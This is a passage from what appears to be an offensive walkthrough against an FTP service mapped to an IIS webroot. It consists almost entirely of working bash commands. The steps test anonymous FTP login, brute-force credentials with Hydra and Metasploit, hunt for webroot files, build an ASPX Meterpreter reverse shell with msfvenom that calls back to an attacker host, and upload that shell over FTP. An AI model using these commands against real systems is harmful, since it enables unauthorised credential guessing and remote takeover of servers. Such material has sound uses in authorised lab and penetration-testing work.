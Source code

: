 2) Anonymous access test:
```bash
# Nmap NSE test (already above) or manual:
ftp -inv $TARGET << 'EOF'
user anonymous anonymous@
pwd
ls
bye
EOF
```

3) Brute-force credentials (if anonymous fails):
```bash
# Hydra
hydra -L users.txt -P passwords.txt -f -o hydra_ftp.txt -u -t 4 ftp://$TARGET

# Metasploit alternative
msfconsole -q -x "use auxiliary/scanner/ftp/ftp_login; set RHOSTS $TARGET; set USER_FILE users.txt; set PASS_FILE passwords.txt; set STOP_ON_SUCCESS true; run; exit"
```

4) Login and check if FTP maps to IIS webroot:
```bash
# Use lftp for stability and scripting; enable passive if needed
lftp -u USER,PASS $TARGET << 'EOF'
set ftp:passive-mode on
pwd
ls -la
# Look for typical webroot artifacts:
# - iisstart.htm / iisstart.png (IIS 7/8 default)
# - default.htm / default.aspx
# Try to list subdirs too
ls -la /
bye
EOF
```

5) Generate ASPX reverse shell payload:
```bash
# 64-bit Meterpreter (adjust to 32-bit payload if target is x86)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$LHOST LPORT=$LPORT -f aspx -o shell.aspx

# Alternatively, a simple reverse cmd shell:
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f aspx -o shell.aspx
```

6) Upload payload via FTP (binary mode) to webroot:
```bash
# If webroot appears to be current directory:
ftp -inv $TARGET << 'EOF'
user USER PASS
binary
pwd
ls
put shell.aspx
ls
bye
EOF
```
